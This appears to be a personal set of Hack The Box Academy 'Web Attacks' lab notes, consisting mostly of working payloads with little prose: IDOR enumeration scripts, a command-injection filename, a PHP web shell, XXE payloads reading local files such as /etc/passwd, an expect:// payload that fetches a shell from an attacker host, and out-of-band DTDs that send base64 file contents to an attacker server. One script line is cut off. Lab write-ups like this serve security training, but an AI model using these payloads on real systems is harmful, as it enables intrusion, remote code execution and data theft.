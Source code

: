 # [HTB] Web Attacks

## Bypassing Basic Authentication

>**Q. Try to use what you learned in this section to access the 'reset.php' page and delete all files. Once all files are deleted, you should get the flag.**

## Bypassing Security Filters
 
>**Q. To get the flag, try to bypass the command injection filter through HTTP Verb Tampering, while using the following filename: file; cp /flag.txt ./**

## Mass IDOR Enumeration

>**Q. Repeat what you learned in this section to get a list of documents of the first 20 user uid's in /documents.php, one of which should have a '.txt' file with the flag.**
```sh
sudo nano documents.sh
sudo chmod +x documents.sh
```
```sh
#!/bin/bash


for i in {0..50}; do
        for link in $(curl -X POST http://83.136.250.34:49965/documents.php -d >
                wget -q http://83.136.250.34:49965/$link
        done
done
```
```sh
./documents.sh

```

## Bypassing Encoded References

>**Q. Try to download the contracts of the first 20 employee, one of which should contain the flag, which you can read with 'cat'. You can either calculate the 'contract' parameter value, or calculate the '.pdf' file name directly.**
```sh
sudo nano encode.sh
sudo chmod +x encode.sh
```
```sh
#!/bin/bash


for i in {1..20}; do
    for hash in $( (echo -n $i | base64 -w 0) |jq -sRr @uri); do
        curl -s "http://83.136.250.34:36131/download.php?contract=$hash"
    done
done
```


## IDOR in Insecure APIs

>**Q. Try to read the details of the user with 'uid=5'. What is their 'uuid' value?**

## Chaining IDOR Vulnerabilities

>**Q. Try to change the admin's email to 'flag@idor.htb', and you should get the flag on the 'edit profile' page.**

## Local File Disclosure

>**Q. Try to read the content of the 'connection.php' file, and submit the value of the 'api_key' as the answer.**
```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=connection.php">
]>
```
```
[/htb]$ echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
[/htb]$ sudo python3 -m http.server 80
```
```
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```
## Advanced Exfiltration with CDATA
```Code: xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

```
Mdmithu@htb[/htb]$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
Mdmithu@htb[/htb]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
```
Code: xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```
## Advanced File Disclosure

>**Q. Use either method from this section to read the flag at '/flag.php'. (You may use the CDATA method at '/index.php', or the error-based method at '/error').**

```bash
sudo nano xxe.dtd
```

```dtd
<!ENTITY % file SYSTEM "file:///flag.php">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

## (web_attacks_xxe_exfil_error_2.jpg)[https://github.com/mithu9554/HTB_Academy/blob/main/HTB_Web_Attacks/web_attacks_xxe_exfil_error_2.jpg]

```bash
python3 -m http.server 8000
```

```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://10.10.15.1:8000/xxe.dtd">
  %remote;
  %error;
]>
```

## Blind Data Exfiltration

>**Q. Using Blind Data Exfiltration on the '/blind' page to read the content of '/327a6c4304ad5938eaf0efb6cc3e53dc.php' and get the flag.**
```bash
sudo nano xxe2.dtd 
```

```dtd
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/327a6c4304ad5938eaf0efb6cc3e53dc.php">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://10.10.15.1:8000/?content=%file;'>">
```

```bash
php -S 0.0.0.0:8000
```
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```
### Automated OOB Exfiltration
```
[/htb]$ git clone https://github.com/enjoiz/XXEinjector.git

Cloning into 'XXEinjector'...
...SNIP...
```
```
Code: http
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```
```
[/htb]$ ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter

...SNIP...
[+] Sending request with malicious XML.
[+] Responding with XML for: /etc/passwd
[+] Retrieved data:
```

## Web Attacks - Skills Assessment

>**Q. Try to escalate your privileges and exploit different vulnerabilities to read the flag at '/flag.php'.**

```xml
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
            <root>
            <name>&xxe;</name>
            <details>test</details>
            <date>2023-07-18</date>
            </root>
```
```xml
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/flag.php">
]>
            <root>
            <name>&xxe;</name>
            <details>test</details>
            <date>2023-07-18</date>
            </root>
```
